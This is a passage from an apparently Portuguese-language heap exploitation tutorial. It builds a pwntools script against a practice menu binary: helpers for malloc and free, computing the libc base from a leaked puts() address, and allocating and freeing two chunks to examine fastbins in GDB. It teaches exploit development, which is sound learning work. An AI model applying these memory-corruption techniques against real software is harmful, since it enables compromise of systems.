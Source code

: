 ```py
def malloc(size, data):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# seleciona a opcao "free" e envia o indice.
def free(index):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

io = start()

# capturando o endereco da puts() que o binario vaza
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1


io.interactive()
```
Este script não diferencia muito do utilizado na exploração do `The House of Force`, porém adaptado às opções do menu deste binário.

Vamos adicionar as seguintes linhas ao script para inserirmos um "username", criar dois *chunks* e em seguida liberá-los:

```py
#===============EXPLOITING================#

# enviando o username
username = b"Beco"
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# requisitando 2 chunks de 0x30 bytes
chunk_A = malloc(0x28, b"A"*0x28)
chunk_B = malloc(0x28, b"B"*0x28)

# liberando os chunks
free(chunk_A)
free(chunk_B)

#=========================================#
```

Vamos executar o script incorporando no GDB com a opção NOASLR ativa e inspecionar a *heap* e o *fastbins*.
